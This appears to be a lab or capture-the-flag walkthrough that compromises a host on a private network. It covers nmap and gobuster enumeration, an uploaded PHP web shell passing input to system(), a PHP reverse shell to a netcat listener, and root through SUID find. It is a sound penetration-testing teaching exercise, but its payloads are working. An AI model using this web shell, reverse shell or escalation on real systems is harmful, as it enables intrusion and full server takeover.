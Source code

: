 `nmap 192.168.100.0/24`

Continue by using _Gobuster_ to try and dig deeper into the website and it's directories to find out more information about it.

`gobuster dir -u http://192.168.100.100 -w /usr/share/wordlists/dirb/common.txt`

_Endpoint_ in the form of "_/upload.php_, which could indicate a potential vulnerability if the upload functionality is not properly secured, as it might allow an attacker to upload and execute malicious files, leading to further exploitation of the server.

```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```

Continue by going back to the terminal window to start a listener

`nc -lvp 2222`
Now, let's use this script to gain a reverse shell using the simple web-based command execution interface we created earlier.
```php
php -r '$sock=fsockopen("192.168.100.101",2222);exec("/bin/bash <&3 >&3 2>&3");'
```

Now, using `sudo -l` we can see if there's any sort of `sudo` command we can run in order to escalate privileges to root.
Let's check if the SUID bit is set for the find command by using the command `find / -perm -4000 2>/dev/null`
Looking at the output, it confirms that the SUID bit is indeed set. Meaning we can use the find command to escalate privileges.
`find / -exec /bin/bash -p \; -quit`

And now you are root! Poof! 